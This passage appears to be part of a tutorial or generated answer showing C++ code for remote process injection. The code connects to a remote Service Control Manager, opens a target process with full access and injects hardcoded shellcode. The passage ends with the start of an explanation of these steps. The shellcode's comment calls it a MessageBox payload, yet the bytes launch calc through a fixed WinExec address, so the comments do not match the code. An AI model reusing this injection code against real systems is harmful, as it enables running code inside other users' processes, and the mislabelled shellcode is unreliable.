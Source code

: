 ```cpp
        return 1;
    }

    std::cout << "Connected to the Service Control Manager on " << targetHost << std::endl;

    // Step 2: Open a handle to the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetProcessId);
    if (hProcess == NULL) {
        std::cerr << "Failed to open the target process." << std::endl;
        CloseServiceHandle(hSCManager);
        return 1;
    }

    std::cout << "Opened handle to process ID " << targetProcessId << std::endl;

    // Step 3: Define a simple payload (example: MessageBox shellcode)
    const char payload[] = 
        "\x90\x90\x90" // NOPs for padding
        "\x31\xc0"     // xor eax, eax
        "\x50"         // push eax
        "\x68\x63\x61\x6c\x63" // push "calc"
        "\x8b\xc4"     // mov eax, esp
        "\x50"         // push eax
        "\xbb\xad\x23\x86\x7c" // mov ebx, 7c8623ad (address of WinExec)
        "\xff\xd3";    // call ebx

    SIZE_T payloadSize = sizeof(payload);

    // Step 4: Inject the payload into the target process
    if (!InjectPayload(hProcess, (LPVOID)payload, payloadSize)) {
        std::cerr << "Payload injection failed." << std::endl;
        CloseHandle(hProcess);
        CloseServiceHandle(hSCManager);
        return 1;
    }

    std::cout << "Payload injected successfully." << std::endl;

    // Clean up
    CloseHandle(hProcess);
    CloseServiceHandle(hSCManager);

    return 0;
}
```

### **Explanation of the Code**

1. **Connecting to SCM**: 
   - We use `OpenSCManagerW` to connect to the Service Control Manager on the remote target (`targetHost`). 
   - The `SC_MANAGER_CONNECT` permission is sufficient for this demonstration, though in a real-world scenario, you may require additional permissions depending on the operations you intend to perform.

